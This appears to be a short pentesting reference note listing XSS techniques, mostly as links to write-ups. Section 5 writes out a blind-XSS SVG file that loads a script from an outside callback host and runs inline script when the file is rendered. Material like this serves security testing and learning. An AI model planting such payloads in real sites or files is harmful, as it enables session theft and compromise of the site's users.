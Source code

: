 ## 1. Browser's XSS Filter Bypass Cheat Sheet

https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet

## 2. Stored XSS using file upload
https://medium.com/@vis_hacker/how-i-got-stored-xss-using-file-upload-5c33e19df51e

## 3. XSS Through Parameter Pollution
https://infosecwriteups.com/xss-through-parameter-pollution-9a55da150ab2

## 4. XSS via HTTP Headers
https://brutelogic.com.br/blog/xss-via-http-headers/

## 5. Blind XSS in svg file
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC
  "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
  <svg width="200"
       height="200"
       zoomAndPan="disable"
       xmlns="http://www.w3.org/2000/svg"
       xmlns:xlink="http://www.w3.org/1999/xlink"
       xml:space="preserve">
    <!-- Script linked from the outside-->
    <script xlink:href="https://smaul1.xss.ht" />
    <script>
      //<![CDATA[
        alert("Smaul");
      ]]>
    </script>
  </svg>
  ```

## 6. PostMessage XSS
```
https://medium.com/@youghourtaghannei/postmessage-xss-vulnerability-on-private-program-18e773e1a1ba
```



